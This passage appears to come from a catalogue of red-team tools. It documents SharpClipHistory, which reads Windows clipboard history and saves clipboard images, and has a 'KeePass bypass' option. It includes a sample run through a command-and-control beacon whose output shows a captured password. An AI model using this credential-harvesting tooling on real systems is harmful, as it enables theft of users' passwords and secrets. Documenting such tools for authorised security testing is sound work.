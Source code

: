         A pre-built executable is also available for those who prefer not to compile the code themselves.
        
        ### **Usage**
        
        To use SharpClipHistory, execute the following commands:
        
        - To display help options:
            
            ```sql
            C:\\Users\\User\\Desktop>SharpClipHistory.exe --help
            
            ```
            
        - To check if the Clipboard history feature is available and enabled:
            
            ```css
            SharpClipHistory.exe --checkOnly
            
            ```
            
        - To enable clipboard history and retrieve contents:
            
            ```css
            SharpClipHistory.exe --enableHistory
            
            ```
            
        - To save images from clipboard history:
            
            ```css
            SharpClipHistory.exe --saveImages
            
            ```
            
        - To implement KeePass bypass:
            
            ```css
            SharpClipHistory.exe --keepassBypass
            
            ```
            
        
        ### **Example**
        
        In a red teaming scenario, you might use SharpClipHistory as follows:
        
        ```less
        beacon> execute-assembly /root/SharpClipHistory.exe
        [*] Tasked beacon to run .NET program: SharpClipHistory.exe
        [+] host called home, sent: 224299 bytes
        [+] received output:
        
        [+] Clipboard history feature is enabled!
        [+] Clipboard history Contents:
        
        4/25/2019 2:27:11 PM admin
        4/25/2019 2:27:06 PM Sup3rS3cur3Passw0rd123!
        
        ```
        
        ## **SharpRDPLog**
        